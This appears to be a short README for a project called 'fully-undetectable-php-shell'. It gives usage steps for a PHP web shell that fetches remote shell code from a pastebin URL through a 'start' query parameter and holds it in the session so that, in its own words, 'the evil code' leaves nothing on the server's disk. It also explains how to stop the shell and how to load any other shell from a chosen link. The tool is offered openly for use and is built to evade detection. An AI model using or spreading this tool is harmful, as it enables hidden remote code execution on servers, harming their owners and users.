 # fully-undetectable-php-shell
How to Use This File
localhost/shell.php?start=http://pastebin.com/raw/8e5m6Nkp
Then remove ?start=http://pastebin.com/raw/8e5m6Nkp
and run
localhost/shell.php
If you want to stop this shell then just put
localhost/shell.php?stop
If you want to inject your own shell then just put it here
localhost/shell.php?start=your-shell-link
#It basically store session so the evil code will not store anywhere of the server.
Hope you like it.
